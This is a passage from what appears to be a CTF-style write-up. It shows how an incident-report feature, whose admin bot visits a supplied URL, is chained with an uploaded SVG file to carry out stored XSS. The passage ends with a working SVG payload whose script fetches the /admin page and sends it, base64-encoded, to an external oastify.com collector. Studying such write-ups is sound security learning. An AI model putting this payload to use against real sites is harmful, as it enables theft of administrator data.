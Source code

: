 > Notice that the we have Incident report function
> 

Now let’s see how it’s handled from the code.

![image.png](../images/blackouts%2019.png)

> As we see we found that the function takes the incident report title and description and send it to the administrator and then the application retrieve the admin credentials to navigate to the url provided in the form
> 

Now what is the attack vector to chain all this!?

1. We will upload a malicious SVG file that will force the admin to navigate to the admin panel and retrieve it’s content 
2. we will submit a new incident giving it the url of the malicious SVG file
3. the administrator navigate to the file the JavaScript will trigger and fetch the admin panel page and send us it’s content

Now let’s go and make a malicious SVG file.

```jsx
<svg xmlns="http://www.w3.org/2000/svg" width="400" height="400" viewBox="0 0 124 124" fill="none">
<rect width="124" height="124" rx="24" fill="#000000"/>
   <script type="text/javascript">  
      fetch('/admin').then(res => res.text()).then(html => fetch('http://ezhhvzg9bjm71uhiuwxk3fret5zwnobd.oastify.com/admin',{method:'POST',body:"admin_panel="+btoa(html)}));
   </script>
</svg> 
```
